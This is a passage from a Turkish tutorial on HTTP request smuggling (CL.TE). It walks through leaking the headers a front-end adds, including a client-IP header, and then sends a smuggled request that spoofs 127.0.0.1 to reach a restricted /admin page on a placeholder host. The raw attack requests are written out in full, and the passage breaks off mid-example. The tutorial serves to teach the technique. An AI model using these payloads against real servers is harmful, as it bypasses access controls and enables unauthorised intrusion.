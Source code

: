 ### Front-end İsteğini Yeniden Yazma

Gönderdiğimiz istekler önce front-end'e iletilir. Front-end isteğimizi back-end'e iletmeden önce, isteğe bazı başlıklar ekler. Örneğin; TLS bağlantısı hakkında bazı bilgiler, kullanıcı IP'sini içeren X-Forwarded-For başlığı, kullanıcıyı tanımlayan oturum başlığı vb.

Bu açığı kullanabilmek için öncelikle, front-end'in eklediği başlıkları görebilmemiz gerekir. Bunun için aşağıdaki örneği takip edebilirsiniz. Örneğimizde, sunucu CL.TE şeklinde çalışıyor ve sunucunun /admin dizinine sadece 127.0.0.1 IP'si (localhost) ile bağlanılabiliyor. İlk işimiz POST ile gönderilip, yanıtta da bulunan bir girdi bulmak. Bizim örneğimizde anasayfada arama girdisi var- istekte parametre ismi search olarak gözüküyor. Mesela test sözcüğünü arattığımızda, yanıtta "<h1>1 search results for 'test'</h1>" şeklinde beliriyor. Şimdi, şöyle bir istek atalım:

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 124
          Transfer-Encoding: chunked

          0

          POST / HTTP/1.1
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 200
          Connection: close

          search=test


Dikkat edin, searh parametresini en sona yazdık. Gelen yanıtı inceleyelim.

          "<h1>0 search results for 'test POST / HTTP/1.1
          X-bEByYY-Ip: xxx.xxx.xxx.xxx
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 125
          Transfe'</h1>"

Bizim gönderdiğimiz istekte "X-bEByYY-Ip" yoktu. Peki bu nereden geldi? Evet, doğru cevap, front-end ekledi. Front-end, isteği gönderenin IP'sini X-bEByYY-Ip başlığı ile back-end'e gösteriyor. Asıl olaya geliyoruz. Back-end, istek yapanın IP'si 127.0.0.1 olmadıkça /admin'i
yasaklıyor, ama biz back-end'e ulaşan IP'yi değiştirebiliriz değil mi? Çünkü, back-end'in hangi başlık ile IP kontrolü yaptığını biliyoruz. Hadi o zaman yeni isteğimizi gönderelim.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 124
          Transfer-Encoding: chunked

          0

          POST /admin HTTP/1.1
          X-bEByYY-Ip: 127.0.0.1
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 200
          Connection: close
